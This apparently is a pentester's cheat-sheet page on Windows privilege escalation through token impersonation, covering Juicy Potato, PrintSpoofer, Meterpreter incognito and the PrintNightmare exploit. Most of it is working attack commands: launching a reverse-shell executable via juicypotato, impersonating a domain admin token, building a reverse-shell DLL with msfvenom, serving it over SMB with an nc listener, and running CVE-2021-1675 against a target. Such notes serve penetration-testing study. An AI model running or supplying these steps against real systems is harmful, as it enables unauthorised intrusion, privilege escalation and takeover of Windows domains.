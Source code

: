 
## Token Impersonation

Use potatoes wisely

SeImpersonatePrivilege enabled?

```text

Find out the version based on build in here https://en.wikipedia.org/wiki/Windows_10_version_history

Windows 7 – Windows 10 / Server 2016 version 1803 –> Juicy Potato
Windows 10 / Server 2016 version 1607 – Windows 10 / Server 2019 present –> Print Spoofer
Windows 10 / Server 2019 version 1809 – present –> Rogue Potato
```

* This shall tipically work if following privileges are available `SeImpersonatePrivilege` and `SeAssignPrimaryTokenPrivilege`

`juicypotato.exe -l 1333 -p C:\path\to\shellfile\rev1337.exe -t * -c "{6d18ad12-bde3-4393-b311-099c346e6df9}"`

But there are also more thechniques such as printspoofer: https://juggernaut-sec.com/seimpersonateprivilege/


```powershell

## TOKEN IMPERSONATION
# IN METERPRETER SESSION ON THE COMPROMISED WINDOWS HOST

load incognito
list_tokens -u
# CHOSE A DOMAIN ADMIN WHICH YOU WANT TO IMPERSONATE

impersonate_token domain\\username

```

## PrintSpoofer

Find vulenrable RPC

`rpcdump.py <HOST-IP>  | grep -A 6 MS-RPRN`

or 

```bash
# Check open pipes
rpcdump.py <HOST-IP> | egrep 'MS-RPRN|MS-PAR'

# Create a DLL payload (reverse shell in this example)
msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -o /workspace/smb/remote.dll

# Host a SMB share 
smbserver.py -smb2support "WHATEVERNAME" /workspace/smb/

# Start the listener (for the reverse shell)
nc -lvnp $LOCAL_PORT

# Run the exploit
CVE-2021-1675.py $DOMAIN/$USER:$PASSWORD@$TARGET_IP '\\$LOCAL_IP\$SHARE\remote.dll'

#thanks 2 https://www.thehacker.recipes/ad/movement/print-spooler-service/printnightmare
```
